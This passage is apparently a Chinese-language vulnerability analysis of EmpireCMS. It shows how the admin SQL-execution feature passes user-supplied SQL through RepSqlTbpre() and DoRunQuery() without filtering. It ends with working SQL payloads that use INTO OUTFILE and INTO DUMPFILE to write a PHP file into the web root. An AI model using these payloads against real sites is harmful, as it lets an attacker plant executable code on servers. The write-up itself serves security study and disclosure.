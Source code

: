 `$query=RepSqlTbpre($r['sqltext']);`：
sqltext就是网页中表格上传的内容，在函数ExecSql()中由RepSqlTbpre()处理

再来看一下RepSqlTbpre():

```php
function RepSqlTbpre($sql){#利用str_replace()将表的前缀进行替换
	global $dbtbpre;
	$sql=str_replace('[!db.pre!]',$dbtbpre,$sql#将表的前缀进行替换
	return $sql;
}
```

`DoRunQuery($query);`：对$query处理（去除空格）,用`;`分割然后遍历，无其他限制or过滤

```php
function DoRunQuery($sql){
	global $empire;
	$sql=str_replace("\r","\n",$sql);#将$sql中的"\r"以"\n"替换
	$ret=array();
	$num=0;
	foreach(explode(";\n",trim($sql)) as $query){#以;分割再遍历
    #explode使用一个字符串切割另一个字符串，并返回数组。这里使用";\n" 切割 trim($sql)
		$queries=explode("\n",trim($query));#trim()去除字符串首尾空白
		foreach($queries as $query)
		{
			$ret[$num].=$query[0]=='#'||$query[0].$query[1]=='--'?'':$query;
		}
		$num++;
	}
	unset($sql);
	foreach($ret as $query)
	{
		$query=trim($query);
		if($query)
		{
			$empire->query($query);
		}
	}
}
```

由此可执行恶意的sql语句



构造payload：(outfile、dumpfile)

```sql
select "<?php phpinfo(); ?>" into outfile "D:\\phpstudy_pro\\WWW\\empirecms\\myinfo.php"
```

or

```sql
select "<?php phpinfo(); ?>" into dumpfile "D:\\phpstudy_pro\\WWW\\empirecms\\myinfo.php"
```
